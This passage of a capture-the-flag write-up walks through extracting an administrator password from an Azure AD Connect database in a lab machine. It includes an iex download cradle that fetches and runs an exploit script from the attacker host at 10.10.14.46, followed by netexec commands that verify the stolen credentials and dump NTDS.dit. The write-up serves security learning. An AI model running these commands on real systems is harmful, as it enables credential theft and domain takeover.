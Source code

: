     -   <https://blog.xpnsec.com/azuread-connect-for-redteam/>

-   **However this instance is not using `localdb` so we need to modify this**:
    -   `Data Source=(localdb)\.\ADSync`: Uses `localdb`, a lightweight version of SQL Server primarily meant for developers (which is not running).
    -   The `(localdb)\.\ADSync` points to a specific instance of `LocalDB`.
    -   `Initial Catalog=ADSync`: Specifies the database `ADSync` that we want to connect to.

-   **Updated Version**:
    ```powershell
        $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
    ```

    -   `Server=127.0.0.1`: Uses the local machine's loopback address (`127.0.0.1`) to connect to the SQL Server instance.
        -   As we know that SQL is running internally.
    -   `Integrated Security=True`: This enables Windows Authentication, using the current user's credentials to authenticate with the SQL Server.
        -   As we know `mhope` has the required permissions to connect to the instance:

- **I actually did a deep dive into how this whole attack works, you can find it here**: 
  - https://bloodstiller.com/articles/azureadconnect/

### Running the Exploit to Extract the Administrator Password: {#running-the-exploit-to-extract-the-administrator-password}

-   **I start my python webserver**:
    -   `python3 -h http.server 9000`

-   **I use a download cradle to run the exploit**:
    -   `iex(new-object net.webclient).downloadstring('http://10.10.14.46:9000/AdConnectPOC.ps1')`
    -   {{< figure src="/ox-hugo/2024-10-14-131101_.png" >}}
    -   We get the administrators password.
    -   +Deep Dive+: I have a deep dive into download cradles and how they work: 
         -   https://bloodstiller.com/articles/understandingdownloadcradles/

-   **I verify the password works using netexec**:
    -   `netexec smb $box -u $user -p $pass --shares`
    -   {{< figure src="/ox-hugo/2024-10-14-131529_.png" >}}

-   **Let's grab our** `root` **flag too**.
    -   {{< figure src="/ox-hugo/2024-10-14-142516_.png" >}}


## 5. Persistence: {#5-dot-persistence}


### Dumping `NTDS.dit`: {#dumping-ntds-dot-dit}

-   **I use netexec to dump the** `NTDS.dit`:
    -   `netexec smb $box -u $user -p $pass -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-10-14-133224_.png" >}}
